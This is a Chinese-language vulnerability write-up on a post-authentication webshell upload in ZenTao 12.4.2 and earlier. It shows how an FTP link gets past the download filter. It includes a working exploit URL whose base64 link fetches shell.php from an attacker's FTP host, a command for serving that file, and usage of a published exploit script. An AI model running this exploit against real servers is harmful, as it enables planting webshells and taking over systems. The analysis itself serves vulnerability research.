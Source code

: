 # 禅道<=12.4.2 后台getshell



## 漏洞利用

Exploit：

http://127.0.0.1/zentao/client-download-1-(base64 encode webshelldownload link)-1.html

http://127.0.0.1/zentao/data/client/1/(download link filename)


 **复现：**

![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image002.jpg)

使用**FTP****协议**下载文件，绕过**module/client/ext/model/xuanxuan.php:10** **downloadZipPackage** 的**HTTP****协议**过滤。


![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image004.jpg)

 

## 代码分析

首先该漏洞需要后台管理员权限，所以我们首先登陆至后台。通过下图我们可以看到登陆后的界面URL为：
`http://192.168.52.141/zentaopms/www/index.php?m=my&f=index`

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t012b1edfbb5968327e.png)](https://p2.ssl.qhimg.com/t012b1edfbb5968327e.png)

我们看到后台界面分别对m以及f参数进行传参，那么不难猜出大概就是调用my类下的index方法，我们看一下该段的代码。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t0159e9407d7b4a59e9.png)](https://p1.ssl.qhimg.com/t0159e9407d7b4a59e9.png)

在/module/my/lang/zh-cn.php下可以看到存在指向index的方法，这验证了我们上面猜测是正确的，那么我们下面来看一下文件下载漏洞点的代码部分。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01e389578003518177.png)](https://p2.ssl.qhimg.com/t01e389578003518177.png)

漏洞是发生在client类下的donwload函数中，我们定位函数至/module/client/control.php中找到该方法，本段代码大致意思就是会接收三个参数version、os、link，然后去调用**downloadZipPackage**方法进行文件下载操作，并对一些下载失败事件进行不同回显，比如downloadFail，saveClientError在上图的方法列表我们可以看到他们调用的方法的具体含义，这里就不再赘述，最后如果没有失败事件时间就会返回成功。在downloadZipPackage并不需要os方法，所以这在我们后期利用时也不需要传入该参数。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01bc3554884a1ddd3a.png)](https://p1.ssl.qhimg.com/t01bc3554884a1ddd3a.png)

然后继续跟进downloadZipPackage方法中，注意重点来了，漏洞真正的产生原因就在该方法中。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01d664441732fb42e4.png)](https://p2.ssl.qhimg.com/t01d664441732fb42e4.png)

我们可以看到这段代码首先对传入的link参数进行了base64解码操作，这里的link参数就是我们shell的远程地址，然后下面会通过一个正则表达式进行判断，link地址是否以 http:// 或者 https:// 开头，如果存在则return返回false并退出方法，否则调用方法**parent::downloadZipPackage**，这里其实忽略了FTP这一文件下载方法，也就是说我们可以通过FTP服务代替进行文件下载操作从而绕过正则的限制。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01be4bcd3b62e34b7c.png)](https://p0.ssl.qhimg.com/t01be4bcd3b62e34b7c.png)

downloadZipPackage方法就没有什么问题了，就是一段文件下载函数，会通过传入的version值创建并命名在data下创建的文件夹并将下载的文件保存在其中。

 

## 漏洞利用

那么这其实就是很清晰了，通过文章开始介绍的m和f参数的调用，我们可以对client类以及download参数进行调用，并传入download参数必要的version以及link参数就可以完成漏洞的利用了。这里的link地址是base64加密后的ftp连接地址，,比如:

**ftp://192.168.52.1/shell.php**

大家可以直接使用python的pyftpdlib模块开启FTP服务比较方便，命令:

**python -m pyftpdlib -p 21 -d .**默认开启匿名用户，不需要输入用户名密码。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t010ff8a21f7d431f36.png)](https://p0.ssl.qhimg.com/t010ff8a21f7d431f36.png)

构建exp如下:

```
http://ip/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==
```

可以看到回显弹窗保存成功，然后再到靶机中查看发现下载成功，保存路径至

```
/zentaopms/www/data/client/1/shell.php
```

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01e196a8e5fd936c20.png)](https://p1.ssl.qhimg.com/t01e196a8e5fd936c20.png)

连接木马，成功利用！

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01f672108d970a681f.png)](https://p4.ssl.qhimg.com/t01f672108d970a681f.png)

 

## 漏洞利用EXP

所以本文最突出的一个部分来了，就是我们有EXP啊。通过两个夜晚的努力，终于完成了，其中也碰到了不少坑，但是好在都解决了。下面由我来介绍一下他的使用方法吧。

[![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01af2b24af5c3ddc4c.png)](https://p3.ssl.qhimg.com/t01af2b24af5c3ddc4c.png)

构建命令:`python "Zentao RCE EXP.py" -H http://192.168.52.141 -U admin -P Admin888 -f 192.168.52.1`

其中-H指定目标主机，-U指定后台用户名，-P指定密码，-f指定VMnet8网卡的IP，这样虚拟机才能正常访问到物理机的FTP服务，当然如果测试环境也在虚拟机中则可以修改源码自动获取IP即可，这里是以我的环境为准所以没有这么做，也因为我觉得麻烦一点来换取兼容性更好一点是不亏的，所以小伙伴可以自行修改使用，我想这也不难，源码中也标注了修改位置。目前已经上传至github，有兴趣的小伙伴可以自行下载测试。

**EXP github地址:**`https://github.com/wikiZ/Zentao-RCE`